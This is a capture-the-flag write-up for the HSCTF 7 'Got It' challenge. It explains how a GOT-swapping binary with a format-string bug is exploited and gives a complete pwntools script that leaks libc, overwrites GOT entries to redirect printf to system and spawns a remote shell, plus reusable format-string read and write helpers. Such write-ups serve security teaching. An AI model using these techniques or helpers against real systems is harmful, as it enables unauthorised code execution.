



# HSCTF 7

## Got It

> 425
>
> Oh no, someone's messed with my GOT entries, and now my function calls are all wrong! Please, you have to help me! I'll do anything to make my function calls right!
>
> This is running on Ubuntu 18.04, with the standard libc.
>
> Connect with `nc pwn.hsctf.com 5004`.
>
> Author: PMP
>
> [`got_it`](gotit) [`Dockerfile`](Dockerfile)

Tags: _pwn_ _x86-64_ _got_ _format-string_ _remote-shell_ _write-what-where_


## Summary

Messed up GOT allows format-string exploit to overwrite `exit` for infinite format-string free rides (libc leak, `printf` to `system`, shell).


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Full RELRO is a lie (see below).  There is no buffer overflow, however _No PIE_ will be useful.

    
### Decompile with Ghidra

There are two functions worth analyzing: setup and main.



`setup` is called by `main` before you can do anything interesting.  Its sole purpose is to fuck with you.

The `mprotect` on line 21 undoes _Full RELRO_.  The GOT is now vulnerable.

The rest of the lines are just <strike>shitfuckery</strike> swapfuckery:



`puts` is swapped with `atoi`, `printf` with `scanf`, and `sleep` with `alarm`.

This is annoying at best, but at least there was not a second call to `mprotect` to reset permissions to `RO`.

> Probably still solvable with `RO`

Just remember when looking at `main` that the GOT has been messed with:



Line 21 has a `printf` format-string vulnerability (remember `scanf` is really `printf` now).  And given the size of `local_118`, there's a lot of room for exploits.


## Exploit

### Attack Plan

1. First Pass: Get infinite free passes (`exit` -> `main`)
2. Second Pass: Leak libc address (unmolested `fgets`)
3. Third Pass: Update GOT, `printf` is now `system`
4. Final Pass: Get a shell, get the flag.


### Initial Setup

This is pretty long, so I'll break down into 3 parts (the patch, the functions, let's get ready).

```python
#!/usr/bin/python3

from pwn import *
import time, os, sys

if len(sys.argv) == 2 and sys.argv[1] == 'local':
    # patch out code that slows down local exploit dev
    binary = ELF('got_it')
    # remove sleep/alarm swap
    for i in range(0x4012a8,0x4012cc):
        binary.p8(i,0x90)
    # remove sleep
    for i in range(0x4012f1,0x4012f6):
        binary.p8(i,0x90)
    binary.save('got_it_patched')
    os.chmod('got_it_patched',0o755)

    p = process('./got_it_patched')
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
else:
    p = remote('pwn.hsctf.com', 5004)
    libc = ELF('libc-database/db/libc6_2.27-3ubuntu1_amd64.so')
```

`got_it` with its `alarm` and `sleep` functions will just slow down your exploit development.  The above, if `local` is passed as the first argument to `exploit.py`, will binary patch `got_it` as `got_it_patched` undoing the `alarm`/`sleep` swap as well as patching-out the 30 second `sleep` reducing how annoying this challenge is.

```python
# write-what-where 64 bit address x 16 bit words, format string
def www64x16fs(what,where,base,count):
    words = {}; qq = 0
    for i in range(count):
        v = (what >> (i*16)) & 0xFFFF
        words[where + i*2] = v
        if v == 0:
            qq += 1

    n=0; q=base+(2*count)-qq; fstring = b''
    for where, what in sorted(words.items(), key=lambda x: x[1]):
        if(what-n) > 0:
            fstring += b'%' + str(what-n).rjust(6,'0').encode() + b'x'
        fstring += b'%' + str(q).rjust(4,'0').encode() + b'$hn'
        n += (what-n)
        q += 1

    for where, what in sorted(words.items(), key=lambda x: x[1]):
        fstring += p64(where)

    return fstring

# read-where->what 64 bit address, format string
def rww64fs(where,base):
    fstring  = b'%' + str(base+1).rjust(5,'0').encode() + b'$s'
    fstring += p64(where)
    return fstring
```

I usually do not do weekday CTFs.  I made an exception when another CTFer asked if I had a format-string library.  I didn't.  However, I said I'd look at the problem and help out.  After solving the problem and refactoring my code I ended up with the above two functions--perhaps the start of a library.

The first function is a format-string write-what-where.  Give it any 64-bit _what_ and any writable 64-bit _where_ and it'll do all the math and generate a format string for you that will write out the _what_ as a series of 16-bit words.  The `count` parameter is number of 16-bit words; if you know that you only have to write out, say, 48-bits (common for x86_64 addresses), then the recommended `4` (64-bits) could be set to `3` (for 3 16-bit words).

The second function is a format-string read-where and return what _is that thing pointing to_.  (I probably need to come up with better names.)

Both functions require a `base`.  This is the location (parameter) in the stack where the format string starts.  It's usually 6, but sometimes 7 or 8 for x86_64.  It is easy to discover using GDB or with a small script like this:

```python
#!/usr/bin/python3

from pwn import *

def scanit(t):
    p = process('./got_it')
    #p = remote('pwn.hsctf.com', 5004)
    p.recvuntil('Give me sumpfink to help me out!\n')
    p.sendline(t)
    _ =  p.recvuntil('worked').split()[-2].split(b'"')[1]
    p.close()
    return _

for i in range(1,20):
    t = '%' + str(i).rjust(2,'0') + '$018p'
    _ = scanit(t)
    print(i,_)
    if _.find(b'0x') >= 0:
        s = bytes.fromhex(_[2:].decode())[::-1]
        if s == t.encode():
            print('base:',i)
            break
```

Output:

```
1 b'0x00007ffe77b98cc0'
2 b''
3 b''
4 b'0x000000000000000f'
5 b'0x000000000000000f'
6 b'0x0000002100000000'
7 b'0x00007ffebf62fdd8'
8 b'0x7038313024383025'
base: 8
```

It's a good idea to test this remotely as well--just in case.

Lastly:

```python
binary = ELF('got_it')
t=time.time()
```

Since each step takes a long time (remote), I added a wall clock timer.


### First Pass: Get infinite free passes (`exit` -> `main`)

```python
print('1st pass...',end='')
p.recvuntil('Give me sumpfink to help me out!\n')
p.sendline(www64x16fs(binary.symbols['main'],binary.got['exit'],8,3))
print(time.time()-t)
```

Having that write-what-where function makes this pretty clear, just overwrite the `exit` GOT entry with the address of `main`.  The `base` of `8` was determined above, and only a `count` of `3` is required since we're replacing 48-bits with 48-bits (x86_64 addresses are 48-bits).

Now we can leak, read, write just about anything we want.


### Second Pass: Leak libc address (unmolested `fgets`)

```python
print('2nd pass...')
p.recvuntil('Give me sumpfink to help me out!\n')
p.sendline(rww64fs(binary.got['fgets'],8))
p.recvuntil('I don\'t think "')
_ = p.recv(6)
fgets = u64(_ + b'\x00\x00')
print('  fgets:',hex(fgets))
baselibc = fgets - libc.symbols['fgets']
print('  libc: ',hex(baselibc))
p.send('\n\n')
print('2nd pass...',end='')
print(time.time()-t)
```

To leak a libc address we just need to use the read-where->what function and then scan for the results.  Above, an unmolested `fgets` GOT entry will provide a libc address.  With that we can use the [libc-database](https://github.com/niklasb/libc-database) to find the version of libc used, e.g.:

```
# libc-database/find fgets b20 | grep -v 386
http://ftp.osuosl.org/pub/ubuntu/pool/main/g/glibc/libc6_2.27-3ubuntu1_amd64.deb (id libc6_2.27-3ubuntu1_amd64)
```

> Yes, I know the challenge description states _This is running on Ubuntu 18.04, with the standard libc._  However, didn't read the description when I started, just downloaded `got_it` and _got_ to it.  Anyway, best to test for yourself. _Доверяй, но проверяй_


### Third Pass: Update GOT, `printf` is now `system`

```python
print('3rd pass...',end='')
p.recvuntil('Give me sumpfink to help me out!\n')
p.sendline(www64x16fs(baselibc + libc.symbols['system'],binary.got['__isoc99_scanf'],8,3))
p.recvuntil('Unterminated quoted string')
p.send('\n\n')
print(time.time()-t)
```

This is not unlike the first pass, using `www64x16fs` to create a format string, just update the <strike>`scanf`</strike> `printf` GOT entry to point to `system`.

Right after that change however, any deterministic `recvuntil` statements based on the binary where <strike>`scanf`</strike> `printf` is called will usually emit `Unterminated quoted string` (error from `system`).


### Final Pass: Get a shell, get the flag.


```python
print('4th pass...',end='')
p.recvuntil('Give me sumpfink to help me out!\n')
p.sendline("/bin/sh")
p.recvuntil('Unterminated quoted string')
print(time.time()-t)
print("\nYOU'RE IN!!!\n")

p.interactive()
```

On this final pass `/bin/sh` is passed to `fgets` that then is passed to <strike>`scanf`</strike> <strike>`printf`</strike> `system`.

This takes 99 seconds to run, be patient.

Output:

```
# ./exploit.py
[+] Opening connection to pwn.hsctf.com on port 5004: Done
[*] '/pwd/datajerk/hsctf7/got_it/libc-database/db/libc6_2.27-3ubuntu1_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/pwd/datajerk/hsctf7/got_it/got_it'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
1st pass...0.0005676746368408203
2nd pass...
  fgets: 0x7fc002f09b20
  libc:  0x7fc002e8b000
2nd pass...32.828476667404175
3rd pass...66.07041907310486
4th pass...99.1631109714508

YOU'RE IN!!!

[*] Switching to interactive mode

$ cat flag.txt
The actual flag is in acknowledgements.txt.

Acknowledgements:
@AC#4637 for dubious German
$ cat acknowledgements.txt
There's some acknowledgements over in flag.txt if you haven't seen that yet.

flag{fl1gh7_0f_7h3_l1bc_func710n5_77e82515}
```
